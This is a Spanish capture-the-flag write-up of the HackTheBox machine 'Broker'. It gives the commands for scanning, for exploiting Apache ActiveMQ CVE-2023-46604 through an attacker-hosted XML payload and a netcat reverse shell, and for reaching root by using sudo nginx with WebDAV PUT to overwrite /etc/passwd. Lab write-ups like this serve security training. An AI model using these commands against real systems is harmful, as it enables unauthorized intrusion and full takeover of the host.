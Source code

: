 ```yaml
---
title: Writeup de la máquina Broker
date: 2024-08-19
categories: [WRITEUPS, HackTheBox]
tags: [activemq]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/broker1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con **NMAP**, para comprobar los  puertos abiertos de la máquina, y los servicios que corren por los puertos.

```bash
nmap -p- --open 10.10.11.243 -Pn
```
![picture](/assets/images/hackthebox/broker2.png)

Realizando otro escaneo, para encontrar las versiones de los servicios, se han encontrado los siguientes.

```bash
nmap -p22,80,1883,5672,8161,35277,61613,61614,61616 -T5 -sVC 10.10.11.243
```

![picture](/assets/images/hackthebox/broker3.png)

- 22/tcp - SSH: Protocolo seguro para acceso remoto a la máquina mediante línea de comandos.
- 80/tcp - HTTP (nginx): Servidor web Nginx.
- 1883/tcp - MQTT: Protocolo de mensajería ligero usado principalmente en dispositivos IoT.
- 5672/tcp - AMQP: Protocolo de mensajería para transferencia fiable y segura de mensajes entre sistemas.
- 8161/tcp - HTTP (Jetty): Servidor web Jetty, posiblemente utilizado para interfaces administrativas o aplicaciones dedicadas.
- 35277/tcp - tcpwrapped: Indica que el puerto está protegido, dificultando la identificación precisa del servicio.
- 61613/tcp - STOMP (Apache ActiveMQ): Protocolo de mensajería de texto simple, usado con Apache ActiveMQ.
- 61614/tcp - HTTP (Jetty): Otro servicio HTTP Jetty, posiblemente relacionado con la administración de ActiveMQ.
- 61616/tcp - ApacheMQ (OpenWire): Protocolo nativo de Apache ActiveMQ para comunicación de mensajería entre aplicaciones

Viendo cada puerto nos centraremos más en los servidores Web, ya sea puerto **80**, **8161** y **61614**.

Si introducimos la dirección **IP** en el navegador para ver el servicio **HTTP**, vemos que nos aparece un panel de **login**.

![picture](/assets/images/hackthebox/broker4.png)

Probando credenciales comunes, con ***admin/admin*** he podido acceder. 

Es un panel de **ActiveMQ**, es un bróker de mensajería de código abierto de *Apache* escrito en *Java* junto con un cliente de servicio de mensajes Java completo. Proporciona diferentes tipos de servicios de alta disponibilidad, de intercambio de archivos, de intercambio de bases de datos, etc.

![picture](/assets/images/hackthebox/broker5.png)

Podemos comprobar la versión en el apartado de admin.

![picture](/assets/images/hackthebox/broker6.png)

---

## **Explotación**

Buscando por internet he encontrado **CVE-2023-46604**, que es una vulnerabilidad crítica en **Apache ActiveMQ**, las versiones anteriores a **5.18.3**, **5.17.6**, **5.16.7** y **5.15.16** son vulnerables. Ésta vulnerabilidad crea en **ActiveMQ** un archivo **XML**, en el cual introduciremos una **Reverse Shell**.

Ataca directamente al puerto **61616**, el cual hemos comprobado antes que estaba abierto.

Nos vamos a clonar el siguiente repositorio de [Github](https://github.com/rootsecdev/CVE-2023-46604), que nos proporcionará una **Reverse Shell**.

```bash
git clone https://github.com/rootsecdev/CVE-2023-46604
```

Modificaremos el archivo "**poc-linux.xml**", añadiéndole nuestra **IP** y el **puerto** por el que queramos entablar la **Reverse Shell**.

![picture](/assets/images/hackthebox/broker7.png)

Seguimos los siguientes pasos por orden: creamos el servidor **HTTP**, iniciamos el **Listener** y ejecutamos el **script**.

![picture](/assets/images/hackthebox/broker8.png)

1. Ejecución del script

    ```go
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.11:8888/poc-linux.xml2
    ```

2. Creción del servidor **HTTP** por el puerto por el cual vamos a hacer referencia al archivo poc-linux.xml.

    ```bash
    pyhton3 -m http.server 8888
    ```
3. Creción del **Listener** por el puerto por el que hemos indicado en el archivo **poc-linux.xml**, para que nos envíe la **Reverse Shell**.

    ```bash
    nc -nlvp 9001
    ```
Y una vez hemos ejecutado todo obtenemos acceso a la máquina.

![picture](/assets/images/hackthebox/broker9.png)

En la carpeta personal encontramos la flag del usuario.

![picture](/assets/images/hackthebox/broker10.png)

---

## **Escalada de privilegios**

Listando los permisos de **sudo** del usuario, vemosque no necesita contraseña para ejecutar ***nginx***.

![picture](/assets/images/hackthebox/broker11.png)

Para escalar privilegios, crearemos un archivo de configuración de ***nginx***, por el cual podamos realizar peticiones para leer o introducir archivos en la máquina vulnerable siendo **root**.

- Archivo de configuración (nginx.conf)

```bash
user root;
events {
        worker_connections 1024;
}
http {
        server{
                listen 8888;
                root /;
                dav_methods PUT;
        }
}
```

Ejecutamos el siguiente comando.

```bash
sudo /usr/sbin/nginx -c /home/activemq/nginx.conf
```

A continuación, añadiré un usuario nuevo al **/etc/passwd** con la *shell* de **root**. (la contraseña cifrada es: password123)

(<mark>IMPORTANTE:</mark> funciona, y podremos leer la flag, aunque esto borrará todos los usuarios del sistema ya que sobrescribirá el usuario añadido sobre los demás, no sería funcional, se podría **leer** la flag directamente, o añadir una clave pública al archivo de **authorized_keys**, y entrar vía **SSH** con la **clave privada**)

```bash
curl -X PUT http://localhost:8888/etc/passwd -d "pwned:$1$xyz$QeYhJjMn0Cz1qxjZ5Pl4q1:0:0:root:/root:/bin/bash"
```

Y una vez migramos de usuario, podemos leer la **flag** de **root**.

![picture](/assets/images/hackthebox/broker12.png)

![picture](/assets/images/hackthebox/broker13.png)